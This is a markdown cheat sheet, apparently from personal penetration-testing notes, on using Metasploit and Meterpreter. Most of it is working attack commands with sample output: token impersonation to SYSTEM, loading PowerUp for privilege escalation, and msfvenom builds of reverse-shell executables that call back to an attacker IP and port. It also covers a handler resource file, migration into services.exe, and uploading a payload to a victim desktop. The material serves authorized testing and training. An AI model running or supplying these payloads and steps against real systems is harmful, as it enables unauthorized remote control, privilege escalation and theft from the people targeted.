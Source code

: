 ```yaml
---
title: Metasploit / Meterpreter
description: How to use metasploit and meterpreter with examples.
---
```


# Metasploit / Meterpreter

## Modules

List of modules :

- **espia :**
- [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) : Allow you to impersonate user tokens.
- **lanattacks**
- **powershell :** Enable powershell (interactive shell, single command, ...).
- **python**
- **stdapi**
- **winpmem**
- **extapi**
- **kiwi**
- **peinjector**
- **priv**
- **sniffer**
- **unhook**

### Incognito

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
[...]
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Powershell

```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
[...]
```

## Msfvenom

List payload : `msfvenom --list payload`

```bash
# Windows (EXE)
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f exe -o shell.exe

# Windows (x86 EXE with encoder)
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai \
	LHOST=10.9.52.138 LPORT=9001 -f exe -o shell.exe

# Linux (ELF)
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.9.52.138 LPORT=9001 \
	-f elf -o shell.bin
```

- `staged` : 2 parts, a listener, then the reverse shell is send to the listener.
- `stageless` : Reverse shell is directly inside the payload.

## Ressource file

File `msf.rc` :

```
use exploit/multi/handler
set LHOST tun0
set LPORT 9001
set payload windows/x64/meterpreter_reverse_tcp
exploit -j
```

Command : `msfconsole -r msf.rc`

## Migrate on process

More information about the [migrate](https://www.hackingarticles.in/metasploit-for-pentester-migrate/) command.

Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions.

```
meterpreter > ps | grep services
Filtering on 'services'

Process List
============

 PID  PPID  Name          Arch  Session  User                 Path
 ---  ----  ----          ----  -------  ----                 ----
 668  580   services.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 996 to 668...
[*] Migration completed successfully.
```

## Search for files

```
meterpreter > search -f shell.exe
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\bruce\Desktop\shell.exe  73802         2021-12-11 12:20:17 +0100
```

## Upload / Download

```
meterpreter > download shell.exe
[*] Downloading: shell.exe -> /home/.../alfred/shell.exe
[*] Downloaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> /home/.../alfred/shell.exe
[*] download   : shell.exe -> /home/.../alfred/shell.exe

meterpreter > upload shell.exe 'c:\Users\bruce\Desktop\reverse.exe'
[*] uploading  : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
[*] uploaded   : /home/.../alfred/shell.exe -> c:\Users\bruce\Desktop\reverse.exe
```

